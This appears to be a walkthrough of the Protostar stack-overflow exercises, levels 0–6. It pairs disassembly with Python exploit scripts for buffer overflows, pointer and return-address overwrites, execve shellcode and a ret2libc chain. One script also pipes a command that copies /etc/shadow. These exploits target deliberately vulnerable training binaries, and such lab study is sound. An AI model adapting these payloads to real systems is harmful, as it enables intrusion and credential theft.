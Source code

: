 # Protostar

## Stack0

The source code shows that there is a significant stack overflow. When the program recvievs input from the user, gets() will not check the length of the buffer.
The mission is that overwrite the variable named modified, the address of which is just 64bytes behind the address of the variable named buffer.

```ASM
 080483f4 <main>:
 80483f4:       55                      push   %ebp
 80483f5:       89 e5                   mov    %esp,%ebp
 80483f7:       83 e4 f0                and    $0xfffffff0,%esp
 80483fa:       83 ec 60                sub    $0x60,%esp
 80483fd:       c7 44 24 5c 00 00 00    movl   $0x0,0x5c(%esp)
 8048404:       00
 8048405:       8d 44 24 1c             lea    0x1c(%esp),%eax
 8048409:       89 04 24                mov    %eax,(%esp)
 804840c:       e8 fb fe ff ff          call   804830c <gets@plt>
 8048411:       8b 44 24 5c             mov    0x5c(%esp),%eax
 8048415:       85 c0                   test   %eax,%eax
 8048417:       74 0e                   je     8048427 <main+0x33>
 8048419:       c7 04 24 00 85 04 08    movl   $0x8048500,(%esp)
 8048420:       e8 07 ff ff ff          call   804832c <puts@plt>
 8048425:       eb 0c                   jmp    8048433 <main+0x3f>
 8048427:       c7 04 24 29 85 04 08    movl   $0x8048529,(%esp)
 804842e:       e8 f9 fe ff ff          call   804832c <puts@plt>
 8048433:       c9                      leave
 8048434:       c3                      ret

```

We could calculate the offset will be 0x40 = 64, since the 
&buffer = 0x1c(%esp);
&modified = 0x5c(%esp);

The exploit python code is 

```python
#!/usr/bin/env python

SH='A'*64+'XXXX'
print(SH)
```

## Stack1

The exploit python code could be slightly modified for stack1

```python
#!/usr/bin/env python

SH='A'*64+'dcba'
print(SH)
```

## Stack2

The exploit python code is:

```python
#!/usr/bin/env python
import sys

SH='A'*64+'\x0a\x0d\x0a\x0d'
sys.stdout.write(SH)
```

And the stack overflow could be constructed as :

```shell
 env GREENIE="`python hack.py`" /opt/protostar/bin/stack2
```

## Stack3

The disasmble code is :

```asm
08048438 <main>:
 8048438:       55                      push   %ebp
 8048439:       89 e5                   mov    %esp,%ebp
 804843b:       83 e4 f0                and    $0xfffffff0,%esp
 804843e:       83 ec 60                sub    $0x60,%esp
 8048441:       c7 44 24 5c 00 00 00    movl   $0x0,0x5c(%esp)
 8048448:       00
 8048449:       8d 44 24 1c             lea    0x1c(%esp),%eax
 804844d:       89 04 24                mov    %eax,(%esp)
 8048450:       e8 db fe ff ff          call   8048330 <gets@plt>
 8048455:       83 7c 24 5c 00          cmpl   $0x0,0x5c(%esp)
 804845a:       74 1b                   je     8048477 <main+0x3f>
 804845c:       b8 60 85 04 08          mov    $0x8048560,%eax
 8048461:       8b 54 24 5c             mov    0x5c(%esp),%edx
 8048465:       89 54 24 04             mov    %edx,0x4(%esp)
 8048469:       89 04 24                mov    %eax,(%esp)
 804846c:       e8 df fe ff ff          call   8048350 <printf@plt>
 8048471:       8b 44 24 5c             mov    0x5c(%esp),%eax
 8048475:       ff d0                   call   *%eax
 8048477:       c9                      leave
 8048478:       c3                      ret
```
I plan to overwrite the content of the pointor named fp with the value of win(), the address of which is 0x08048424.

The following python code will exploit the program at the level.

```python
#!/usr/bin/env python
import sys

SH='A'*64+'\x24\x84\x04\x08'
sys.stdout.write(SH)
```

## stack4

I used `strace -i` to find out which offset is the return address, then I constructed the attack vector.

```python
#!/usr/bin/env python
import sys
padding='BBBBCCCCDDDD'
ret_addr='\xf4\x83\x04\x08'

SH='A'*64+padding+ret_addr

sys.stdout.write(SH)
```

## stack5

In this level, I found the value of esp and ebp maybe different between normal  execution and gdb mode. Also /bin/sh will read from stdin, but which was redirected by command. And strace is a good tool to debug.

`python stack5.py | /opt/protostar/bin/stack5`

```python
#!/usr/bin/env python

import sys

SHELL_CODE = "\x31\xc0\x50\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
NOP= "\x90"

ret_addr = "\xa0\xf7\xff\xbf" # 0xbffff7a0
old_ebp = "\x48\xf8\xff\xbf" #0xbffff848

buff_size = 64

# NOP shell_code NOP old_ebp ret_addr
SH = NOP*32 + SHELL_CODE
SH = SH + NOP*(buff_size-len(SH))
# and    $0xfffffff0,%esp
SH = SH + NOP*8 + old_ebp + ret_addr
# add return char for gets()
SH = SH + "\n"

sys.stdout.write(SH)
sys.stdout.flush()
#write cmd
cmd="id; cat /etc/shadow > shadow.txt"
sys.stdout.write(cmd+"\n")
sys.stdout.flush()

```

# stack6

Because the buffer of stack starts with 0xbfXXXXXX, it will be unable to put the shellcode on the stack.

The following code shows how return into libc works. Please be careful about the structure of the payload.
buffer | old_ebp | system_addr | ret_addr_after_system | parameters

```python
#!/usr/bin/env python

import sys

NOP= "\x90"

ret_addr = "\xb0\xff\xec\xb7" # 0xb7ecffb0 system
old_ebp = "\xff\xff\xff\xbf"  # 0xbfffffff
para = "\x8c\xf7\xff\xbf" # 0xbffff78c
buff_size = 0x4c
cmd="/usr/bin/id; echo "
exit_addr = "\xc0\x60\xec\xb7" # 0xb7ec60c0 exit
exit_para = "\xff\xff\xff\xff"
# cmd padding  old_ebp ret_addr
SH = cmd
SH = SH + 'A'*(buff_size-len(SH))
SH = SH + old_ebp + ret_addr + exit_addr + para
# add return char for gets()
SH = SH + "\n"

sys.stdout.write(SH)
sys.stdout.flush()
```

The second point is that, this code only check the return address at the first time. However, we can control the return address, so that we just pick a function on the return address. When this function returns, it will continue pop the next level return address, which will not be checked.
